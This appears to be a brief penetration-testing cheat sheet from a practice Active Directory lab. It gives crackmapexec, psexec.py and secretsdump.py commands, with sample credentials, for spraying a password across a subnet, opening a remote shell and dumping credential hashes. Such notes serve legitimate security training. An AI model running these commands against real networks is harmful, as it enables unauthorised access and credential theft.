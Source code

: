 ### crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```

### psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

### secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```
